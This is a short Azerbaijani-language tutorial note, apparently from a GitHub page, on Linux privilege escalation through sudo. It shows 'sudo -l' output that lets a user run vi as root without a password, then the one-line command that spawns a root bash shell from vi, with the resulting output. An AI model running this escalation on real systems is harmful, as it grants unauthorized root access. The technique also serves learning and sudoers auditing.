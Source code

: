 ## Sudo -l 

bu kimi, müəyyən əmrləri root parolu olmadan kök istifadəçi kimi işlədə bildiyinizi görəcəksiniz. Bu, imtiyazları artırmağa imkan verə bilər.


Sudo -l verilende eger bunu gorursense:
-------
user8@polobox:~$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
user8@polobox:~$ 
-------

bunu yaz:
# sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

ve bele gorsenecek

user8@polobox:~$ sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

Welcome to Linux Lite 4.4 root
 
Monday 22 January 2024, 07:58:24
Memory Usage: 348/1991MB (17.48%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
